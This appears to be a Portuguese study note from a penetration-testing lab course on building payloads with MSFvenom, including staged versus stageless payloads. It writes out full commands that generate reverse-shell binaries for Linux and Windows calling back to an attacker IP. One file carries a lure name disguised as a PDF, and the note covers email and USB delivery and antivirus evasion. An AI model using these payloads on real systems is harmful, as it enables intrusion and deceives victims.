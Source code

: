 Haverá situações em que não teremos acesso direto à rede para uma máquina-alvo vulnerável. Nesses casos, precisaremos ser astutos em como a carga útil é entregue e executada no sistema. Uma dessas maneiras pode ser usar `MSFvenom`para criar uma carga útil e enviá-la por mensagem de e-mail ou outros meios de engenharia social para levar o usuário a executar o arquivo.

Além de fornecer uma carga útil com opções de entrega flexíveis, o MSFvenom também nos permite `encrypt`& `encode`cargas úteis para ignorar assinaturas comuns de detecção de antivírus. Vamos praticar um pouco com esses conceitos.

Em qualquer host com MSFvenom instalado, podemos emitir o comando `msfvenom -l payloads`para listar todos os payloads disponíveis.

#### Listar cargas úteis
```bash-session
NycolasRamos@htb[/htb]$ msfvenom -l payloads
```
![[Pasted image 20240830090427.png]]

Primeiro, podemos ver que a convenção de nomenclatura de payload quase sempre começa listando o SO do alvo ( `Linux`, `Windows`, `MacOS`, `mainframe`, etc...). Também podemos ver que alguns payloads são descritos como ( `staged`) ou ( `stageless`). Vamos cobrir a diferença.

## Payloads ``staged`` vs. `stageless`

**Staged payloads** permitem enviar componentes adicionais durante um ataque. Por exemplo, o payload `linux/x86/shell/reverse_tcp` envia um pequeno estágio ao alvo que, ao ser executado, baixa o restante do payload, estabelecendo um shell reverso. Esses estágios ocupam espaço na memória e podem variar conforme o payload. 

**Stageless payloads**, como `linux/zarch/meterpreter_reverse_tcp`, são enviados inteiros sem estágio, o que é vantajoso em ambientes com pouca largura de banda ou alta latência, evitando sessões de shell instáveis. Esses payloads também podem ser mais eficazes para evasão, pois geram menos tráfego na rede.

Aqui está um resumo simples:

No Metasploit, você pode identificar um payload como **staged** ou **stageless** pelo nome. Se o nome do payload tiver várias partes separadas por barras, como `linux/x86/shell/reverse_tcp`, isso indica que é um **staged payload**, com cada parte representando um estágio. Por outro lado, um nome que combina tudo em uma só parte, como `linux/zarch/meterpreter_reverse_tcp`, indica um **stageless payload**, onde o shell e a comunicação de rede estão integrados. Se houver dúvida, a descrição do payload geralmente indicará se ele é staged ou stageless.

## Construindo um payload ``stageless``
Agora vamos construir uma carga útil simples sem estágios com o msfvenom e detalhar o comando.

#### Construa-o
```bash-session
NycolasRamos@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
<pre style="overflow-x:scroll;">
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
</pre>

#### Chame o MSFvenom
```bash-session
msfvenom
```
Define a ferramenta usada para fazer a carga útil.

#### Criando um payload
```shell-session
-p
```
Essa ``option`` indica que o msfvenom está criando uma carga útil.

#### Escolha da carga útil com base na arquitetura
```shell-session
linux/x64/shell_reverse_tcp
```
Especifica um payload `Linux` `64-bit` sem estágios que iniciará um shell reverso baseado em TCP ( `shell_reverse_tcp`).

#### Endereço para conexão de volta
```shell-session
LHOST=10.10.14.113 LPORT=443 
```
Quando executado, o payload retornará a chamada para o endereço IP especificado ( `10.10.14.113`) na porta especificada ( `443`).

#### Formato para gerar o payload em ...
```shell-session
-f elf
```
O sinalizador `-f` indica o formato em que o binário gerado estará. Neste caso em ``.elf``

#### Saída
```shell-session
> createbackup.elf
```
Cria o binário .elf e nomeia o arquivo createbackup. Podemos nomear esse arquivo como quisermos.

## Executando um payload sem estágios
Neste ponto, temos a carga útil criada em nossa caixa de ataque. Agora, precisaríamos desenvolver uma maneira de colocar essa carga útil no sistema alvo. Existem inúmeras maneiras de fazer isso. Aqui estão apenas algumas das maneiras comuns:

- Mensagem de e-mail com o arquivo anexado.
- Link para download em um site.
- Combinado com um módulo de exploração Metasploit (isso provavelmente exigiria que já estivéssemos na rede interna).
- Via pen drive como parte de um teste de penetração no local.

Quando o arquivo estiver no sistema, ele também precisará ser executado.

#### Payload do Ubuntu
![[Pasted image 20240830092339.png]]
Teríamos um ouvinte pronto para capturar a conexão no lado da caixa de ataque após a execução bem-sucedida.

#### Conexão com o NC
```shell-session
NycolasRamos@htb[/htb]$ sudo nc -lvnp 443
```
Quando o arquivo é executado, vemos que capturamos um shell.

#### Conexão estabelecida
```shell-session
NycolasRamos@htb[/htb]$ sudo nc -lvnp 443
```
![[Pasted image 20240830092430.png]]
Esse mesmo conceito pode ser usado para criar cargas úteis para diversas plataformas, incluindo Windows.

## Construindo um Payload simples sem estágios para um sistema Windows
Também podemos usar o msfvenom para criar um arquivo executável (`.exe`) que pode ser executado em um sistema Windows para fornecer um shell.

#### Payload do Windows
```shell-session
NycolasRamos@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
A sintaxe do comando pode ser quebrada da mesma forma que fizemos acima. As únicas diferenças, é claro, são o `platform`( `Windows`) e o formato ( `.exe`) do payload.

## Executando um Payload simples sem estágios em um sistema Windows
Esta é outra situação em que precisamos ser criativos para entregar esta carga útil a um sistema alvo. Sem qualquer `encoding`ou `encryption`, a carga útil neste formato quase certamente seria detectada pelo Windows Defender AV.

![[Pasted image 20240830092717.png]]

Se o AV estivesse desabilitado, tudo o que o usuário precisaria fazer seria clicar duas vezes no arquivo para executá-lo e teríamos uma sessão de shell.

```shell-session
NycolasRamos@htb[/htb]$ sudo nc -lvnp 443
```
![[Pasted image 20240830092743.png]]


























































